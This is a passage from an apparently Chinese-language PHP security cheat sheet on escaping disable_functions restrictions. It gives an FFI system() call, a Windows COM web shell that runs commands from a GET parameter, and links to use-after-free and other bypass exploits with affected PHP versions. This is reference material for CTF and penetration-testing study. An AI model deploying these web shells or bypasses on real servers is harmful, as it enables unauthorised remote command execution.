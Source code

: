    ```php
    <?php
    $ffi = FFI::cdef("int system (const char* command);");
    $ffi->system("id");
    ```

- [FastCGI Extension](https://github.com/w181496/FuckFastcgi)

- Windows COM
    - 條件
        - `com.allow_dcom = true`
        - `extension=php_com_dotnet.dll`
    - PoC:

    ```php
    <?php
    $command = $_GET['cmd'];
    $wsh = new COM('WScript.shell'); // Shell.Application 也可
    $exec = $wsh->exec("cmd /c".$command);
    $stdout = $exec->StdOut();
    $stroutput = $stdout->ReadAll();
    echo $stroutput;
    ```

- iconv
    - https://gist.github.com/LoadLow/90b60bd5535d6c3927bb24d5f9955b80
    - 條件
        - 可以上傳 `.so`, `gconv-modules`
        - 可以設定環境變數
    - `iconv()`, `iconv_strlen()`, php://filter的`convert.iconv`

- [l3mon/Bypass_Disable_functions_Shell](https://github.com/l3m0n/Bypass_Disable_functions_Shell)

- [JSON UAF Bypass](https://github.com/mm0r1/exploits/tree/master/php-json-bypass)
    - 7.1 - all versions to date
    - 7.2 < 7.2.19 (released: 30 May 2019)
    - 7.3 < 7.3.6 (released: 30 May 2019)
- [GC Bypass](https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass)
    - 7.0 - all versions to date
    - 7.1 - all versions to date
    - 7.2 - all versions to date
    - 7.3 - all versions to date

- [Backtrace Bypass](https://github.com/mm0r1/exploits/tree/master/php7-backtrace-bypass)
    - 7.0 - all versions to date
    - 7.1 - all versions to date
    - 7.2 - all versions to date
    - 7.3 - all versions to date
    - 7.4 - all versions to date

- PHP SplDoublyLinkedList UAF Sandbox Escape
    - https://ssd-disclosure.com/ssd-advisory-php-spldoublylinkedlist-uaf-sandbox-escape/
    - Affected
        - PHP version 8.0 (alpha)
        - PHP version 7.4.10 and prior (probably also future versions will be affected)
    - Example
        - [RealWorld CTF 3rd - MoP2021](https://github.com/w181496/CTF/tree/master/RealWorldCTF2021/MoP2021)
